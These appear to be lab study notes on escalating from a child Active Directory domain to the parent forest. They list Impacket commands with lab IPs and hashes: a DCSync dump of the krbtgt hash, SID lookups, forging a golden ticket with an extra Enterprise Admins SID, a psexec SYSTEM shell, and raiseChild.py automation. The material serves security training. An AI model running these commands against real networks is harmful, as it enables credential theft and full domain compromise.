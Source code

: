 We need:
- The KRBTGT hash for the child domain (dcsync with secretsdump)
- The SID for the child domain (lookupsid)
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain 
- The SID of the Enterprise Admins group of the root domain (lookupsid)

Tool: secretsdump.py

**Performing DCSync with secretsdump.py
```
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```

**Performing SID Brute Forcing using lookupsid.py
```
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "DOMAIN SID"
```

**Grabbing the Domain SID & Attaching to Enterprise Admin's RID
```
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```

**Constructing a Golden Ticket using ticketer.py
```
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```
- Creates ccache file which stores Kerberos credentials 

**Setting the KRB5CCNAME Environment Variable
```
export KRB5CCNAME=hacker.ccache 
```
- Have to point to ccache file

**Getting a SYSTEM shell using Impacket's psexec.py
```
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```

**Performing the Attack with raiseChild.py
```
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```



